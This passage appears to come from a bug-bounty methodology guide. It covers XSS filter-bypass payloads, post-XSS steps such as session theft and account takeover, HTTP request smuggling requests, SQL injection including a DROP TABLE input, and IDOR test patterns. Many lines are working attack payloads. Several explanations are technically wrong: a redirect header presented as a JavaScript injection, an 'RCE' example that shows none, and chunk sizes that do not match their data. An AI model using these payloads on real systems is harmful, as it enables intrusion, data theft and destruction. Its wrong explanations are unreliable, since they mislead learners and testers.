Since WAFs might not be updated, target newer HTML tags to bypass the WAF. In this case, try the `<details/open/ontoggle="...">` tag.

Step 4: Confuse the WAF

Combine multiple HTML tags to make the payload harder to detect. For example:


```html
<details/open/ontoggle=location=location.hash.split('#')[1]>#javascript:\u0061lert(1)
```


Step 5: Alternatives for `alert`

To bypass the WAF's detection of `alert`, use `window['ale'+'rt']instead`.

Step 6: Unicode characters Use Unicode characters like `\u0061` or `\u{0061}` to bypass the WAF. For example:

```html
<details/open/ontoggle=window['\u0061lert'](origin)>
```

Step 7: HTML-encoded values

Expand HTML encoded values by adding `0` after the number:

```html
<details/open/ontoggle=window['ale&#0000072;rt'](origin)>
```

Step 8: Alternatives for JavaScript scheme

Use alternatives like `Java\tScript` or `Java%09Script` to bypass the WAF:

```html
<details/open/ontoggle=window['ale'+'rt'](origin)>
```

Step 9: Exploit SVG-based XSS filters

If the WAF allows SVG-based tags, use the `use` element to import an SVG via a data URL and execute JavaScript automatically:


```html
<svg><use href="data:image/svg+xml;base64,PHN2ZyB4bWxuczp4bGluaz0iaHR0cDovL3d3dy53My5vcmcvMTk5OS94bGluayIgeG1sbnM6dmlzdGFydD0iaHR0cDovL3d3dy53My5vcmcvMjAwM192aXN0YXIiPjxzY3JpcHQ%2BPHNjcmVlbiB0aXRsZT0iSGlkZGVuIFNjcmVlbiI%2BXzwvc2NyZWVuPiJ9Ii8%2BCg%3D%3D">
```


Step 10: Unicode characters in HTML tags

Use Unicode characters in HTML tags, such as `＜`:

```html
＜script＞alert(1)＜/script＞
```


**Sample Scenario 2**

A bug bounty hunter is testing a web application that uses a WAF to protect against XSS attacks. The WAF is known to be implemented by the application owner or a third-party service provider.

Methodology Flow:

1. **Research the WAF**: The bug bounty hunter searches online for known bypass techniques and payloads for the specific WAF.
2. **Fuzzing**: The bug bounty hunter uses fuzzing tools to test the application and identify which part of the payload is being detected by the WAF's ruleset.
3. **Exploit the WAF's limitations**: The bug bounty hunter targets newer HTML tags like `<details>` or `<x>` that have a higher chance of bypassing the WAF.
4. **Confuse the WAF**: The bug bounty hunter expands their payloads to make it harder for the WAF to detect malicious input.
5. **Alternatives for `alert`**: The bug bounty hunter uses `window['ale'+'rt'](origin)` to bypass the WAF's detection of `alert`.
6. **Unicode characters**: The bug bounty hunter uses Unicode characters like `\u0061` or `\u{0061}` to bypass the WAF.
7. **HTML-encoded values**: The bug bounty hunter extends HTML-encoded values by adding `0` after the number, like `alert&#0000000040"1")`.
8. **Alternatives for JavaScript scheme**: The bug bounty hunter uses alternatives like `Java\tScript` or `Java%09Script` to bypass the WAF.
9. **Exploit SVG-based XSS filters**: The bug bounty hunter uses the `use` element to import an SVG via a data URL and execute JavaScript automatically.
10. **Unicode characters in HTML tags**: The bug bounty hunter uses Unicode characters in HTML tags, such as `＜`, to bypass the WAF.

Code Examples:


```html
<!-- Using Unicode characters to bypass the WAF -->
<--` --!>

<!-- Using HTML encoded values to bypass the WAF -->


<!-- Using alternatives for JavaScript scheme to bypass the WAF -->
<a href="JavaScript:alert(1)">XSS</a>

<!-- Using SVG-based XSS filter to bypass the WAF -->
<svg>
  <use href="data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHZpZXdCb3g9IjAgMCAxIDEiIHdpZHRoPSIxMDAlIiBoZWlnaHQ9IjEwMCUiPjxmb250IGlkPSJhIiBzdHlsZT0iZW5hYmxlLWJhY2tncm91bmQ6bmV3IDAgMCAxIDEgOyIgZmlsbD0iIzAwMCI+PC9mb250PiBjbGFzcz0iYWN0aXZlIj48L3N2Zz4="></use>
</svg>

<!-- Using Unicode characters in HTML tags to bypass the WAF -->
<＜details/open/ontoggle=JS>
```



The Post XSS Exploit methodology focuses on maximizing the impact of a successful Cross-Site Scripting (XSS) attack. After executing an XSS attack, the following steps can help increase its effectiveness:

**Step 1**: Leak Personally Identifiable Information (PII)

* Leverage the XSS vulnerability to extract sensitive information, such as cookies, session tokens, or user data.
* Use JavaScript to read and exfiltrate data by sending it to an attacker-controlled server.

**Step 2**: Achieve Account Takeover (ATO)

* Utilize the XSS vulnerability to steal session tokens or login credentials, enabling an attacker to take control of a user's account.
* Redirect the user to a malicious login page or inject malicious code into the login process to capture credentials.

**Step 3**: Code an XSS worm (for Stored XSS)

* If the XSS vulnerability is stored, create an XSS worm that self-replicates and propagates across the affected system or application.
* The XSS worm can infect multiple users and potentially compromise the entire system.

**Step 4**: Exploit Cross-Origin Resource Sharing (CORS) misconfigurations

* Identify any CORS misconfigurations that allow the vulnerable subdomain as a valid origin.
* Use the XSS vulnerability to exploit the misconfiguration and access sensitive information or execute malicious actions across different domains.


### XSS Methodology Flow

Here is an integrated and categorized methodology for finding Cross-Site Scripting (XSS) vulnerabilities within a scope as a bug bounty hunter:

1. **Reconnaissance and Identification**:
   * Understand the target application's functionality, features, and input points.
   * Identify potential entry points for XSS attacks, such as forms, search fields, or user input fields.
2. **Discover Hidden Parameters**:
   * Use tools like Burp Suite, OWASP ZAP, or browser developer tools to intercept and analyze HTTP requests and responses.
   * Look for hidden parameters that are not explicitly defined in the application code but are still accepted by the server.
   * These hidden parameters may be used to pass user input and can be vulnerable to XSS attacks.
3. **Search for Reflections**:
   * Manually review the source code of JavaScript files, HTML files, and server-side templates.
   * Look for places where user-supplied data is directly reflected in the output without proper sanitization or encoding.
   * Common locations to look for reflections include URL parameters, form inputs, cookies, and server-side templates.
4. **Analyze JavaScript Files**:
   * Download all JavaScript files from the target application using tools like wget or a browser's developer tools.
   * Use grep, awk, or a text editor to search for JavaScript keywords that can be used for XSS, such as `document.write`, `innerHTML`, `eval`, `setTimeout`, and `setInterval`.
5. **Search for Event Listeners**:
   * Look for event listeners that are attached to user-supplied data, such as the `addEventListener('message', function(e) { /* ... */ })` pattern.
   * Check if the event listener's code uses user-supplied data without proper sanitization or encoding.
6. **Investigate postMessages**:
   * Examine the application's use of postMessages and look for misconfigurations that could lead to XSS vulnerabilities.
   * Misconfigured postMessages may allow an attacker to execute JavaScript code in the context of the receiving application.
7. **Utilize Tools and Extensions**:
   * Use tools like XSS Scanner, XSSer, or OWASP Zed Attack Proxy (ZAP) to identify potential XSS vulnerabilities automatically.
   * Leverage browser extensions like XSS Discover to help you test for XSS vulnerabilities while browsing the application.
8. **Blind XSS Testing**:
   * In scenarios where you suspect a blind XSS vulnerability but can't directly trigger an alert or script execution, use tools like XSSHunter or BeEF to confirm the vulnerability's existence.
   * Spray every parameter, URL, and input field with blind XSS payloads to uncover hidden vulnerabilities.
9. **Reporting and Documentation**:
   * After finding an XSS vulnerability, document the issue and create a proof-of-concept (PoC) to demonstrate the exploit.
   * Report the vulnerability to the appropriate parties, such as the application owner or a bug bounty program, following their disclosure guidelines.


### <mark style="color:red;">Ephemeral Vulnerabilities</mark>

Ephemeral vulnerabilities are short-lived or transient vulnerabilities that exist only for a brief period. These vulnerabilities can be challenging to detect and exploit due to their temporary nature.&#x20;

These vulnerabilities can be caused by various factors, such as:

* Temporary misconfigurations
* Unintended user behavior
* Software bugs or glitches
* Time-based exploits

Some characteristics of ephemeral vulnerabilities include:

* Transient nature: They appear and disappear quickly, often due to the dynamic behavior of the system or application.
* Hard to reproduce: Since they occur under specific conditions, it can be difficult to reproduce the same environment or conditions that led to the vulnerability in the first place.
* Difficult to detect and exploit: Due to their transient nature, traditional security testing methods may not be effective in discovering or exploiting them.

Ephemeral vulnerabilities have become a focus for both security researchers and bug bounty hunters, as they often require a deep understanding of the application's or system's behavior and unique, advanced exploitation techniques. These vulnerabilities can pose a significant threat to organizations if not addressed, as they can still be exploited by skilled attackers even though they might not be present all the time.


#### How to Find Ephemeral Vulnerabilities

1. **Continuously Enumerate Subdomains**
   * It is important to keep track of new or recently updated subdomains, as they can introduce new vulnerabilities to your system. You can use tools such as sublist3r or subdomainer to automate this process. Additionally, tools like subfinder, amass, and assetfinder can be used to enumerate subdomains of the target. To stay up to date with newly discovered subdomains, you can set up a cronjob to run these tools periodically. Alternatively, you can write a script that can be run daily or weekly to update the list of subdomains. Continuously enumerating subdomains of your target organization can help identify new assets that may be vulnerable to exploitation. To automate this task, you can use tools like Amass, Subfinder, and Aquatone.
2. **Continuous Fuzzing**
   * It is recommended to fuzz web applications, APIs, and other assets regularly to identify vulnerabilities that may arise from certain conditions or edge cases. For this purpose, tools such as wfuzz or OWASP ZAP can be used. Additionally, tools like ffuf, gobuster, dirsearch, etc. can be used to fuzz the directories and files of the specific target. To cover all the subdomains, fuzzing should be performed for each subdomain. It is advised to automate the process to fuzz all assets regularly. For fuzzing, a wordlist such as SecLists can be utilized. It is a good practice to continuously fuzz the assets of your organization to ensure their security. Fuzzing is performed by sending unexpected, random, or malformed data to a system to identify potential weaknesses. Tools such as Burp Suite, FFUF, and Arachni can help automate this process.
3. **Manually Check New Assets and Features**
   * It's important to periodically check new programs, applications, or features for potential vulnerabilities. Focus on analyzing any significant changes or updates that have been made. After testing with fuzzing tools, manually check each new asset (new page, new parameter, etc.) for vulnerabilities. Look for common misconfigurations, improper input validation, and other potential issues. You can use tools like Burp Suite or ZAP to manually test each new asset. It's important to regularly perform manual checks on new assets and programs since automated tools may not always detect certain vulnerabilities. By manually reviewing the code and configuration of new assets, you can identify potential security issues that might otherwise go unnoticed.
4. **Utilize Nuclei Scanner**
   * It is recommended to use Nuclei, a fast and customizable vulnerability scanner, to scan for vulnerabilities in new assets. It is also important to perform periodic scans for new vulnerabilities on all existing assets. To scan for new vulnerabilities on the newly discovered assets, you can run Nuclei on the list of newly discovered subdomains and assets. You can use the -t flag to specify the template file or directory containing the vulnerability templates to be used for scanning. For example, you can run the command "`nuclei -t /path/to/templates -l /path/to/subdomains.txt`". Nuclei is a versatile and fast tool for vulnerability scanning that can help you identify vulnerabilities in new assets and scan for new vulnerabilities in existing assets. By continuously updating your Nuclei templates, you can ensure that you are covering the latest vulnerabilities.
5. **Monitor JavaScript Files**
   * To identify new features or functionalities in a JavaScript file, you should carefully observe the changes. It is also important to analyze new code to identify any potential vulnerabilities that may arise. Keep a close eye on the source code of the target application for any new features being added, including new files, directories, or changes in existing functionality. You can also use tools like `git` or `svn` to track changes in the source code repository. Monitoring JavaScript files can be particularly helpful in identifying new features, as changes to these files often indicate new functionality. By tracking these changes, you can identify any potential security issues that might be introduced alongside new features.
6. **Track Default Pages**
   *   It is recommended to keep an eye on changes in default pages, such as those used in Express or Apache. To identify common default pages, you can create signatures that can be used to monitor for modifications. For instance, the signature for the Express default page is "`Cannot GET /, X-Powered-By: Express`", while the one for the Apache default page is "`Apache2 Ubuntu Default Page: It works`".

       It is suggested to periodically check the default pages, such as `index.html`, of the target application for any changes. You should look for differences in the default page, such as new content, new tags, or modifications to the default page. You can use tools like curl or wget to retrieve the default page and compare it with previous versions.

       It is advisable to monitor default pages for changes since many web applications, such as Express and Apache, have default pages that can indicate the presence of a specific technology or framework. By monitoring these pages for changes, you can identify potential vulnerabilities that might be introduced due to misconfigurations or outdated software.
7. **Create Custom Signatures**
   * To enhance security, it is recommended to develop unique signatures that can identify and monitor changes in default pages and other common elements. These signatures should be regularly updated and refined to stay ahead of emerging threats. Additionally, it's a good idea to create custom signatures for specific vulnerabilities or patterns that are frequently encountered. Regular expressions or keyword matching can be used to identify potential vulnerabilities in the output of tools like `nuclei`. These custom signatures can also be integrated into the nuclei tool for automated scanning. Furthermore, it's important to develop custom signatures that can detect specific vulnerabilities or patterns in the target organization. This can help uncover vulnerabilities that might not be covered by existing tools or templates.


### <mark style="color:red;">HTTP Request Smuggling</mark>

HTTP Request Smuggling is a security exploit that targets the HTTP protocol and arises from inconsistencies in the interpretation of Content-Length and Transfer-Encoding headers between HTTP server implementations in a proxy server chain. In this exploit, an attacker manipulates the headers in a single HTTP request, causing either the front-end or back-end server to misinterpret the request and potentially pass through a malicious HTTP query.The vulnerability occurs when an HTTP request is sent with both Content-Length and Transfer-Encoding headers. The front-end server may interpret one of these headers, while the back-end server interprets the other. This discrepancy can lead to the following scenarios:

1. Header Injection: The back-end server may interpret a new request based on the attacker's input, potentially injecting malicious headers.
2. Request Queue Confusion: The front-end and back-end servers may desynchronize their interpretation of HTTP requests, leading to unexpected behavior or data leakage.
3. Request Splitting: The request may be split into multiple requests, potentially allowing the attacker to bypass security controls or cause denial-of-service conditions.

HTTP Request Smuggling can be difficult to detect and mitigate since it relies on the interactions between multiple server components. To prevent this vulnerability, organizations should ensure proper HTTP header validation and consistent interpretation of Content-Length and Transfer-Encoding headers across all server implementations in their infrastructure.


#### Exploits

Explanation 1

The HTTP Request Smuggling exploit takes advantage of inconsistencies in how different servers or intermediaries handle and interpret HTTP requests, particularly the Content-Length and Transfer-Encoding headers. An attacker can manipulate these headers to cause a mismatch in the understanding of a single HTTP request between a front-end server or proxy and a back-end server. Here's a simplified step-by-step explanation of how an HTTP Request Smuggling exploit works:

1. An attacker sends a single HTTP request to the target system with a payload that appears as two separate HTTP requests. This is achieved by using both Content-Length and Transfer-Encoding headers.
2. The front-end server or proxy reads the first header (usually Content-Length) and processes the request accordingly.
3. The back-end server, however, interprets the second header (usually Transfer-Encoding) and sees the initial request as two separate requests.
4. At this point, the attacker has effectively "smuggled" a second request into the system without the front-end server's awareness.
5. Depending on the specific exploit, the attacker can use this second request for various purposes, such as bypassing security controls, performing cross-site scripting attacks, or causing a denial of service.


**The attacker sends a single HTTP request with both `Content-Length` and `Transfer-Encoding` headers:**


```bash
curl -v -X POST -H "Content-Length: 0" -H "Transfer-Encoding: chunked" -H "Content-Type: application/x-www-form-urlencoded" "https://example.com/vulnerable-app"
```


In this example, the front-end server might interpret the request according to the `Content-Length: 0` header, while the back-end server interprets it according to the `Transfer-Encoding: chunked` header. This can cause a desynchronization between the front-end and back-end servers.

**To further exploit this vulnerability, the attacker can send a second request with malicious content:**


```bash
curl -v -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "malicious_data=exploit&more_data=more_exploit" "https://example.com/vulnerable-app"
```


Since the front-end server is unaware of the second request due to the previous desynchronization, it may forward it to the back-end server without proper validation, which could allow the attacker to inject malicious data or execute unauthorized actions.


Explanation 2

If an application uses a custom `Content-Type` header to specify the format of the request body, an attacker could potentially inject additional headers into the subsequent request by exploiting the vulnerability.

To exploit this vulnerability, the attacker would need to:

1. Identify a vulnerable parameter or endpoint in the application.
2. Construct a malicious request with a payload that includes multiple headers or request methods.
3. Submit this malicious request to the vulnerable endpoint.
4. If the server processes the request incorrectly, the attacker can manipulate subsequent requests by injecting additional headers or data.

There are several types of HTTP Request Smuggling vulnerabilities, such as:

* **CL.TE** (Content-Length/Transfer-Encoding): Vulnerabilities that allow the client to specify the length of the request body.
* **TE.CL** (Transfer-Encoding/Content-Length): Vulnerabilities that allow the client to specify the encoding of the request body.
* **TE.TE** (Transfer-Encoding/Transfer-Encoding): Vulnerabilities that allow the client to specify multiple encodings in the request.


Explanation 3

There are several ways to exploit HTTP Request Smuggling, but one common method is through the use of different headers, such as `Content-Length` and `Transfer-Encoding`. The front-end server might use one header, while the back-end server uses another, leading to inconsistencies in request handling.

For example, consider the following malicious request:

```html
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked

7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

x=
0
```

In this example, the front-end server uses the `Transfer-Encoding` header to indicate that the request is chunked, while the back-end server uses the `Content-Length` header to determine the size of the request. The back-end server interprets the first four bytes (`7b`) as the value of the `x` parameter, while the rest of the request is appended as extra values of the same parameter.

To successfully exploit HTTP Request Smuggling, you need to consider several factors, such as the use of different network connections, the same URL and parameter names, and the potential impact on other users. It's also important to be aware of load-balancing algorithms and the role they play in determining whether the requests are forwarded to the same back-end system.


#### HTTP Protocol

<figure><figcaption></figcaption></figure>

**HTTP 1.0**

In HTTP 1.0, every HTTP request is needed to establish a new TCP connection. This led to increased latency and slower performance. Additionally, there was no concept of persistent connections or request pipelining.

**HTTP 1.1**

HTTP 1.1 introduced two significant improvements:

1. _Keep-Alive_: This feature allows persistent connections between a client and server, meaning multiple HTTP requests can be sent over a single TCP connection. This reduces latency and improves overall performance.
2. _Pipeline_: Pipelining enables a client to send multiple HTTP requests without waiting for each response. This further increases performance but can also introduce potential security risks if not properly implemented.

**Transfer-Encoding** is a header field in an HTTP message that specifies the form of encoding used to safely transfer the payload body to the user. It can be one of several encodings, including `chunked`, `compress`, `deflate`, `gzip`, and others.

**Chunked Transfer Coding**, also known as chunked encoding, is a data transfer mechanism used in the HTTP protocol to stream data without specifying the content length beforehand. The data is sent in a series of chunks, each with its own size, followed by a newline and a CRLF sequence.

The chunked transfer coding is particularly useful for transferring large files or data streams where the total size is not known in advance. The sender encodes the data into chunks, and the receiver decodes the chunks to reconstruct the original data.

Here's an example of a chunked transfer coding response:

```
HTTP/1.1 200 OK
Transfer-Encoding: chunked

7\r\n
Mozilla\r\n
9\r\n
Developer\r\n
7\r\n
Network\r\n
0\r\n
\r\n
```

In this example, the response body is divided into three chunks, with the size of each chunk indicated by the number followed by `\r`. The final chunk is a zero-length chunk followed by `\r\n\r`, indicating the end of the response.

Chunked transfer-coding is a common technique used in various web applications and APIs to stream data without knowing the full size in advance. It allows for efficient data transfer and can be used for live updates or long-running processes.


**chunked transfer-coding more examples**

Request 1

```html
GET / HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

5
hello

0
```

Response 1

```html
HTTP/1.1 200 OK
Content-Type: text/html
Transfer-Encoding: chunked

10
<html>
   <body>
      <h1>Hello, world!</h1>
   </body>
</html>

0
```

Request 2

```html
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

7
name=John

5
age=30

0
```

Response 2

```html
HTTP/1.1 200 OK
Content-Type: application/json
Transfer-Encoding: chunked

12
{"message":"Hello, John!","age":30}

0
```

<figure><figcaption></figcaption></figure>


More information






#### The Smuggling

HTTP Smuggling is a type of attack that exploits inconsistencies in the way different servers or intermediaries handle and interpret HTTP requests. The primary goal of this attack is to manipulate the communication between a front-end server or proxy and a back-end server by sending a single HTTP request that appears as two or more separate requests to one of the servers. This manipulation can lead to various consequences, such as bypassing security controls, injecting malicious content, or causing denial of service.&#x20;

* The connection between the front-end and backend server typically doesn't use pipelining or even `keep-alive`.
* However, the backend server supports both pipelining and `keep-alive`.

**The Key Facts:**

* The proxy is used `keep-alive` with the backend server.
* The proxy does not use pipelining with the backend server.

**The Vulnerability:**

This configuration creates a vulnerability to HTTP smuggling attacks. Since the backend supports pipelining, an attacker can send multiple HTTP requests in a single TCP packet to the proxy. The proxy, unaware of the pipelining, will forward these requests to the backend server as separate requests, potentially bypassing security checks and causing unintended behavior.

**Example:**

Imagine an attacker sending the following two requests in a single TCP packet:

```php
GET /admin HTTP/1.1
Host: example.com

POST /users HTTP/1.1
Host: example.com
Content-Length: 10
username=admin&password=password
```

The proxy, unaware of pipelining, will forward these requests to the backend server as separate requests. The first request will access the admin panel, while the second request will attempt to create a new user with the username "admin" and password "password."

**Impact:**

This type of attack can have severe consequences, including:

* Unauthorized access to sensitive data
* Account takeover
* Denial of service
* Data manipulation

HTTP Smuggling attacks often involve the following techniques:

**Header Manipulation**: Attackers modify or add HTTP headers, such as Content-Length or Transfer-Encoding, to create discrepancies in the interpretation of a single HTTP request between servers.

**Request Queue Confusion**: By taking advantage of the discrepancies in HTTP request interpretation, attackers can cause desynchronization between the front-end and back-end servers, leading to unexpected behavior or data leakage.

**Request Splitting**: A single HTTP request can be split into multiple requests, allowing attackers to bypass security controls or cause denial-of-service conditions.

<figure><figcaption></figcaption></figure>

More Information






#### Methodology

The methodology for finding and exploiting HTTP Request Smuggling vulnerabilities is as follows:

1. **Use HTTP Request Smuggler in BurpSuite**:
   * Launch BurpSuite and navigate to the "Proxy" tab.
   * In the "Intercept" tab, enable the "HTTP History" option.
   * Send a request to the target URL and observe the response.
   * In the "HTTP History" tab, right-click on the request and select "Send to Repeater".
   * In the "Repeater" tab, try changing the `Content-Length` and `Transfer-Encoding` headers.
   * If the server responds with a different response, it may indicate that the target is vulnerable to HTTP Request Smuggling.
2. **Use Smuggler**:
   * Install the Smuggler tool from the GitHub repository.
   * Run the tool with the target URL and any available parameters.
   * The tool will attempt to identify and exploit any HTTP Request Smuggling vulnerabilities.
3. **Exploit Manually**:
   * Manually test the target application by sending crafted requests with different `Content-Length` and `Transfer-Encoding` headers.
   * Try adding headers like `X-Forwarded-For`, `X-Forwarded-Host`, or `X-Forwarded-Proto` to see if they are reflected or processed in any way.
   * If the target application has a cache implementation, try to manipulate the cache to deceive it into processing the malicious requests.
   * If the target is vulnerable to DOS, try to exploit it by sending large or malformed requests to the server.
   * If the target responds with a 403 status code, try to bypass this restriction by modifying the request or using alternative methods.
4. **Use Other Tools**:
   * Use other tools like `ffuf` (Fuzzing tool) or `wfuzz` (Web Fuzzer) to fuzz the parameters and endpoints of the target application.
   * Look for any differences in the responses or behavior when different headers or values are used.
   * Use tools like `Burp Intruder` or `ZAP Fuzzer` to automate the process of discovering and exploiting the vulnerability.


**Inject Remote JavaScript by 301**

301 Inject Remote JavaScript (301 RJS) is a vulnerability that allows an attacker to inject malicious JavaScript code into a vulnerable web application. It exploits the fact that the web server incorrectly handles the `Location` header in a 301 (Moved Permanently) or 302 (Found) redirect response.

When a web server receives a request for a resource, it may check for certain conditions and redirect the request to a different URL. If the `Location` header in the response is not properly sanitized, an attacker can inject arbitrary JavaScript code by closing the header value and appending their malicious code.

For example, consider the following vulnerable code snippet:

```php
<?php
if ($user_input == "admin") {
    header("Location: http://example.com/admin.php");
} else {
    header("Location: http://example.com/home.php");
}
?>
```

If an attacker provides the following input:

```
http://vulnerable.com/redirect.php?user_input=");alert(document.domain);//
```

The server will respond with a 302 redirect to:

```
http://example.com/home.php");alert(document.domain);//
```

The injected JavaScript code will be executed by the browser, allowing the attacker to steal sensitive information or perform other malicious actions.

<figure><figcaption></figcaption></figure>


### <mark style="color:red;">Injection SQL RCE</mark>

Injection SQL RCE (Remote Code Execution) is a vulnerability that allows an attacker to execute arbitrary commands on the server by exploiting a SQL injection vulnerability. It occurs when user-supplied input is not properly sanitized and used directly in SQL queries, allowing the attacker to inject malicious SQL statements.

**SQL Injection**: The attacker first identifies a SQL Injection vulnerability in a web application. SQL Injection allows the attacker to manipulate SQL queries executed by the application, potentially exposing sensitive data or modifying the application's behavior.

**Remote Code Execution**: Once the attacker has identified the SQL Injection vulnerability, they can attempt to leverage it to achieve Remote Code Execution. This is typically done by injecting malicious SQL code that allows the attacker to execute arbitrary commands on the underlying operating system. This could be achieved through functions like `xp_cmdshell` in Microsoft SQL Server or `system()` in MySQL.

For example, consider the following vulnerable PHP code:

```php
<?php
$user_id = $_GET['user_id'];
$query = "SELECT * FROM users WHERE id = $user_id";
$result = mysqli_query($db_connection, $query);
```

If an attacker provides the following input:

```
http://vulnerable.com/user.php?user_id=1' OR '1'='1
```

The resulting SQL query will be:

```sql
SELECT * FROM users WHERE id = 1' OR '1'='1
```

The `OR '1'='1` part will always evaluate to true, and the query will return all rows from the `users` table. If the application does not properly handle the result of the query, it may allow the attacker to execute arbitrary SQL commands.

To exploit this vulnerability, the attacker can inject additional SQL statements, such as:

```
http://vulnerable.com/user.php?user_id=1'; DROP TABLE users; --
```

This will result in the following SQL query:

```sql
SELECT * FROM users WHERE id = 1'; DROP TABLE users; --
```

The `DROP TABLE users;` the statement will remove the `users` table, allowing the attacker to destroy the database or gain unauthorized access to sensitive information.


Methodology

The methodology for finding and exploiting Injection SQL/RCE vulnerabilities is as follows:

1. **Hidden Parameter Discovery**:
   * Manually test the target application by modifying the URL parameters and observing the response.
   * Look for any changes in the application's behavior or the presence of new features or functionality.
   * Use tools like `Burp Suite` or `ZAP` to identify hidden parameters and test their susceptibility to injection attacks.
2. **Automated Discovery**:
   * Use tools like `Burp Suite` or `ZAP` to automate the process of discovering injection vulnerabilities.
   * Use the "Active Scanner" or "Spider" feature to scan the target application for injection vulnerabilities.
   * Use the "Repeater" feature to automate the testing of different injection payloads.
   * Use the "Intruder" feature to fuzz the parameters with a list of predefined payloads.
3. **SQL Injection Exploitation**:
   * Once an injection vulnerability is found, try to exploit it by injecting malicious SQL statements.
   * Use tools like `sqlmap` to automate the process of exploiting SQL injection vulnerabilities.
   * Test for time-based blind SQL injection by using `sleep()` or `benchmark()` functions.
   * If the injection is successful, try to extract sensitive information or modify the database.
4. **Remote Code Execution (RCE) Exploitation**:
   * If the SQL injection vulnerability allows for remote code execution, try to exploit it by injecting malicious commands.
   * Use tools like `sqlmap` or `SQLi` to automate the process of exploiting RCE vulnerabilities.
   * Test for out-of-band (OOB) injection by using external resources or network communication.
   * If the injection is successful, try to execute arbitrary commands on the server or gain unauthorized access.
5. **Filtering and Sanitization**:
   * Ensure that the target application properly validates and sanitizes user-supplied input before using it in SQL queries.
   * Use parameterized queries or prepared statements to prevent SQL injection attacks.
   * Implement proper input validation and sanitization on the server side to prevent RCE vulnerabilities.


### <mark style="color:red;">Insecure Indirect Object Reference (IDOR)</mark>

Insecure Indirect Object Reference (IDOR) is a vulnerability that occurs when an application allows an attacker to access or manipulate resources or data indirectly through user-supplied input. It exploits the fact that the application does not properly validate or authorize the user's access to specific resources based on their identity or permissions.

For example, consider the following vulnerable code snippet in a PHP application:

```php
<?php
$user_id = $_GET['user_id'];
$query = "SELECT * FROM users WHERE id = $user_id";
$result = mysqli_query($db_connection, $query);
$user = mysqli_fetch_assoc($result);

// Display user information
echo "Username: " . $user['username'];
echo "Email: " . $user['email'];
```

If an attacker provides the following input:

```
http://vulnerable.com/user.php?user_id=10
```

The application will retrieve the details of the user with `id = 10` and display them to the user. However, if the attacker changes the `user_id` parameter to a value that corresponds to another user, they can potentially access the details of that user:

```
http://vulnerable.com/user.php?user_id=5
```

This would allow the attacker to view the details of the user with `id = 5`, even though they are not authorized to do so.


#### Methodology

***

**Indirect Object Reference (IDOR) Vulnerability Identification and Exploitation Methodology**

**1. Application Reconnaissance and Fuzzing**

Begin by performing comprehensive application reconnaissance, which involves crawling and mapping the target application's functionality. Utilize tools like Burp Suite or ZAP to automate both passive and active reconnaissance processes. Pay particular attention to endpoints returning information, especially those with parameters referencing objects or resources. Apply fuzzing techniques to thoroughly test these discovered endpoints for potential vulnerabilities.

**2. JavaScript and API Endpoint Analysis**

Thoroughly examine JavaScript files to identify API endpoints and parameters susceptible to IDOR vulnerabilities. Use a combination of automated tools and manual inspection techniques to extract and analyze client-side code for possible IDOR issues.

**3. Testing for IDOR in Information Disclosure**

Conduct rigorous testing on endpoints and objects returning information, as they often harbor IDOR vulnerabilities. Look for patterns in object references, such as sequential IDs, which attackers can manipulate to gain unauthorized access. Be cautious with seemingly random values like Universally Unique Identifiers (UUIDs), ensuring you can leak other users' UUIDs or discern a pattern in their generation to confirm an IDOR vulnerability.

**4. Testing for IDOR in State-Changing Functionalities**

Focus on testing state-changing functionalities, like updating user information or modifying account settings, for IDOR vulnerabilities. Though more challenging to identify, these vulnerabilities are often easier to test. Employ techniques such as Mass Assignment to uncover potential IDOR vulnerabilities in state-changing endpoints.

**5. Bypass Techniques and Parameter Pollution**

Explore various bypass techniques, including parameter pollution, to identify IDOR vulnerabilities or circumvent access control restrictions. Parameter pollution involves manipulating multiple occurrences of a parameter to induce unintended behavior, potentially leading to unauthorized object access or modification.

**6. Reporting and Remediation**

Document and report all identified IDOR vulnerabilities to relevant stakeholders. Collaborate closely with developers and security teams to implement robust access control mechanisms, input validation, and other necessary fixes to mitigate IDOR risks effectively.

***


#### How to Test for IDOR

**Endpoint Fuzzing -** Test for IDOR by fuzzing various endpoints, especially those that return information, using a fuzzing tool or manually. For example:

* `/endpoints/users/me`
* `/endpoints/**[FUZZ]**/**[FUZZ]**`

**Adding Parameters to Endpoints -** Include additional parameters to endpoints that return information, such as user IDs, to check if unauthorized access is possible. For example:

* `GET /api/v1/getuser?id=1234`

**Parameter Pollution in State-Changing Requests** - Use parameter pollution techniques to manipulate request parameters, even in non-state-changing requests, to bypass access controls and gain unauthorized access. This can be achieved in the query string or request body:

* `POST /api/forget_password?email=victim_email&email=hacker_email`
* `POST /api/forget_password {"email":"victim_email", "email": "hacker_email"}`

**Extensions to Bypass Forbidden Actions -** Leverage file extensions to bypass forbidden actions on certain endpoints. For example:

* `GET /v2/GetData/1234.json`

**Testing Outdated or Upcoming API Versions -** Try using different API versions in the URL path to access unauthorized resources. For example:

* `POST /v1/GetData` instead of `POST /v2/GetData`

**Manipulating JSON Packets** - Modify JSON packets in the request to attempt IDOR exploitation. For instance:

* `POST /api/get_profile {"id":[111]}`
* `POST /api/get_profile {"user_id":{"user_id":111}}`

**UUID to Numeric ID Conversion -** When encountering UUIDs or complex object IDs, try converting them to simple numeric IDs to test for IDOR. For example:

* `GET /file?id=3102 instead of GET /file?id=ef811484-ec5d-4ba3-b418-7303e0636a61`

**Abusing Reverse Proxy -** In cases where a reverse proxy is in use, manipulate the URL path to bypass access controls, such as:

* `POST /users/delete/MY_ID/../VICTIM_ID`
* `POST /users/delete/MY_ID%2f%2e%2e%2fVICTIM_ID`

**Verb Tampering -** Change the HTTP method used to access a resource to bypass forbidden actions. For example:

* `DELETE /users/delete/VICTIM_ID instead of POST /users/delete/VICTIM_ID`

**Discovering Hidden Parameters -** Even if a request already contains an ID, attempt to discover additional hidden parameters by guessing, extracting, or fuzzing parameters. For example:

* `GET /v2/profile/1000?user_id=1001`
* `POST /v2/profile?user_id=1001` with request body `user_id=1000`


**Case study scenario**


```python
def delete(self, request, message_id):
    try:
        user_id = request.GET.get('user', request.user.id)
        message = Message.objects.get(Q(id=message_id), Q(from_user=request.user) | Q(to_user=request.user))
